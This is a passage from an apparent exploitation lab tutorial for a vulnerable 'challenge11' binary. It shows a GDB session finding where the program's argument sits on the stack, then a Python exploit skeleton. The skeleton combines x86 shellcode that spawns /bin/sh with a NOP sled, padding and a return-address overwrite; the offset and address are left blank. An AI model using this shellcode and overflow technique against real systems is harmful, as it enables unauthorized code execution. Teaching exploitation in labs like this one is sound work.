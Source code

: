 Set Breakpoint in GDB. We can break anywhere in the function, lets say at
`0x080485c3`
```
(gdb) b *0x080485c3
Breakpoint 1 at 0x080485c3
```

Run it with the parameter "AAAAAAAA test":

```
(gdb) run AAAAAAAA test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge11/challenge11 AAAAAAAA test

Breakpoint 1, 0x080485c3 in handleData ()

(gdb) x/1x $ebp+0x8
0xffffd670:     0xffffd87e
(gdb) x/4x 0xffffd87e
0xffffd87e:     0x41414141      0x41414141      0x73657400      0x45540074
```

The first parameter is stored at `EBP+0x8`. Or to be more specific, the address
of the first parameter. This address is `0xffffd87e`. Then we can check if this
address really points to our future shellcode.


## Create an exploit

The prepared exploit skeleton is available at the file `challenge11-exploit-skel.py`:
```
#!/usr/bin/python
# Skeleton exploit for challenge11
import sys

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

buf_size = 64
offset = ??

ret_addr = "\x??\x??\x??\x??"

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```
